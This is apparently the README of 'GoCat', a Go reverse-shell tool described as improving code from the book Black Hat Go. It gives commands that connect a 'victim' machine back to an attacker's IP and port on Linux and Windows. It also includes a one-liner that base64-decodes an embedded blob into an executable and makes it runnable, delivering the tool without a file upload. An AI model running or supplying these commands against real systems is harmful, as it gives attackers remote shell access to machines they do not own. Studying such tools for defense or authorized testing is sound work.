 # GoCat
A self-contained implementation of a reverse shell (netcat-like). It is an improvement based on the source code found on the book blackhat Go 

## Author
Alan Lacerda (alacerda) | intruderLabs team

## Usage
The command accepts 2 parameter:

-p string

        Port where the attacker is expecting the reverse shell back.

-s string

        Attacker's IP address to send the shell back.

### Examples
If the attacker's IP address is 10.0.0.197 and the attacker started a listener on TCP port 9090 waiting for a connection back from the victim:

#### Linux Victim
./gocat -s 10.0.0.197 -p 9090

##### Linux without uploading
You can send the gocat to a linux box with base64 decode:

	echo MQBvcy9leGVjLigqQ21kKS5zdGRpbi5mdW5jMQBvcy9leGVjLigqQ21kKS53cml0ZXJEZXNjcmlwdG9yLmZ1bmMxAG9zL2V4ZWMuKCpDbWQpLlN0YXJ0LmZ1bmMxAG9zL2V4ZWMuKCpDbWQpLlN0YXJ0LmZ1bmMyAG9zL2V4ZWMuaW5pdC4wLmZ1bmMxAG9zL2V4ZWMuaW5pdABvcy9leGVjLigqRXhpdEVycm9yKS5TdHJpbmcAb3MvZXhlYy4oKkV4aXRFcnJvcikuU3lzAHR5cGUuLmVxLm9zL2V4ZWMuRXJyb3IAb3MvZXhlYy5FeGl0RXJyb3IuU3RyaW5nAG9zL2V4ZWMuRXhpdEVycm9yLlN5cwBtYWluLm1haW4AbWFpbi5oYW5kbGUA | base64 -d > gocat && chmod +x gocat

#### Windows victim
gocat.exe -s 10.0.0.197 -p 9090

